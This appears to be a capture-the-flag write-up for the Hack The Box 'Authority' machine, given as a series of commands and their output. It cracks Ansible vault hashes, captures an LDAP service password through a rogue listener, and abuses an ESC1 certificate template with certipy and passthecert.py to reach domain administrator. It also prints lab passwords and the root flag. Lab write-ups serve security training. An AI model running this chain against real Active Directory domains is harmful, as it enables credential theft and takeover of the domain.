


| Users    | Passwords          |
| -------- | ------------------ |
| svc_pwm  | pWm_@dm!N_!23      |
| svc_ldap | lDaP_1n_th3_cle4r! |

# SMB shares enum

-> Ansible2john + hashcat
```bash
ansible2john.py ldap_admin_password pwm_admin_login pwm_admin_password | tee ansible.hashes
ldap_admin_password:$ansible$0*0*c08105402f5db77195a13c1087a<SNIP>
pwm_admin_login:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f<SNIP>
pwm_admin_password:$ansible$0*0*15c849c20c74562a25c925c3e5a4<SNIP>
# Hashcat
```
password: `!@#$%^&*`
This password is the vault password, now we can use ansible tool to decrypt real password
```bash
pipx install ansible-core
cat smb/ldap_admin_password | ansible-vault decrypt
Vault password: !@#$%^&*
Decryption successful
DevT3st@123
# Do this for the others
svc_pwm:pWm_@dm!N_!23
```
# Shell as svc_ldap
-> With this creds we can connect to Configuration manager on https://10.129.26.29:8443
We can configure ldap to connect back to our machine and get svc_ldap credential
```bash
nc -lnvp 389
Ncat: Connection from 10.129.26.29:58058.
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htblDaP_1n_th3_cle4r!
```
```sql
nxc smb authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
SMB         10.129.26.29    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.129.26.29    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
⚡ 14:58 🔐 root@exegol-main 💻 10.10.14.38 📁 Authority # nxc winrm authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
WINRM       10.129.26.29    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.129.26.29    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (admin)
```
# Shell as Administrator
## Enumerate ADCS
```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerabl
CA NAME = AUTHORITY-CA
[!] Vulnerabilities
ESC1: Enrollee supplies subject and template allows client authentication
```

-> Its only computer that can enrolled not user, so we have to create a computer
```yaml
nxc ldap authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
[*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb) (signing:Enforced) (channel binding:Never)
[+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
[*] Getting the MachineAccountQuota
MachineAccountQuota: 10
```
-> ADD new computer
```kotlin
addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'Robots$' -computer-pass Password123@ -dc-ip 10.129.26.29
[*] Successfully added machine account mister$ with password Password123@
```
-> Now lets request cert for our machine with -upn of administrator using certipy
```bash
certipy req -username 'Robots$' -password Password123@ -ca AUTHORITY-CA -dc-ip 10.129.26.29 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```
## LDAP Shell 
-> We are going to get a LDAP shell because this command does not works, because DC isn't properly set up for PKINIT
```undefined
certipy auth -pfx administrator_authority.pfx -dc-ip 10.129.26.29
certipy auth -pfx administrator_authority.pfx -dc-ip 10.129.26.29
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN DNS Host Name: 'authority.htb'
[*] Found multiple identities in certificate
[*] Please select an identity:
    [0] UPN: 'administrator@authority.htb' (administrator@authority.htb)
    [1] DNS Host Name: 'authority.htb' (authority$@htb)
> 0
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
⚡ 15:26 🔐 root@exegol-main 💻 10.10.14.38 📁 Authority # certipy auth -pfx administrator_authority.pfx -dc-ip 10.129.26.29
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN DNS Host Name: 'authority.htb'
[*] Found multiple identities in certificate
[*] Please select an identity:
    [0] UPN: 'administrator@authority.htb' (administrator@authority.htb)
    [1] DNS Host Name: 'authority.htb' (authority$@htb)
> 1
[*] Using principal: 'authority$@htb'
[*] Trying to get TGT...
[-] Name mismatch between certificate and user 'authority$'
[-] Verify that the username 'authority$' matches the certificate DNS Host Name: authority.htb
[-] See the wiki for more information
```
-> To get LDAP shell we need .pfx .key .crt file
```bash
certipy cert -pfx administrator_authority.pfx -nocert -out administrator.key
[*] Data written to 'administrator.key'
[*] Writing private key to 'administrator.key'
⚡ 15:28 🔐 root@exegol-main 💻 10.10.14.38 📁 Authority # certipy cert -pfx administrator_authority.pfx -nokey -out administrator.crt
[*] Data written to 'administrator.crt'
[*] Writing certificate to 'administrator.crt
```
-> Now lets use #tools called passthecert.py the get LDAP shell
```bash
passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.
htb -dc-ip 10.129.26.29
-> Then we get a LDAP shell
> add_user_to_group svc_ldap administrators
```
-> Now reconnect to thebox using winrm and get root flag
```undefined
48d7ac21a4e19236edcc41336e7b8be5
```
